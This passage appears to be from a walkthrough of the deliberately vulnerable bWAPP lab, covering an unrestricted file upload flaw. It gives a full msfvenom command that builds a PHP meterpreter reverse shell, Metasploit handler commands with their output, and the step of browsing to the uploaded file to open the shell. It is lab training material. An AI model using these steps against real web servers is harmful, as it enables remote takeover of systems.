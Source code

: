 Once we forward the modified request, we are granted access.

![Restrict Device Acces](/assets/images/2019-03-17-bwapp-writeup/14.png)

# Other bugs

## Unrestricted File Upload

### Low

Generate payload and upload it.

```
$ msfvenom -p php/meterpreter_reverse_tcp LHOST=10.99.9.90 LPORT=9988 -f raw > shell.php
```

Open a meterpreter session.

```
$ msfconsole
[...]
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD php/meterpreter_reverse_tcp
PAYLOAD => php/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.99.9.90
LHOST => 10.99.9.90
msf5 exploit(multi/handler) > set LPORT 9988
LPORT => 9988
msf5 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf5 exploit(multi/handler) > exploit -j -z
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.99.9.90:9988 
msf5 exploit(multi/handler) > 
```

Now, we execute the "image" by typing its URL in our browser. In my case
`http://10.99.50.177/bWAPP/images/shell.php`. This activates the shell and will
try to make a connection to our Metasploit session.

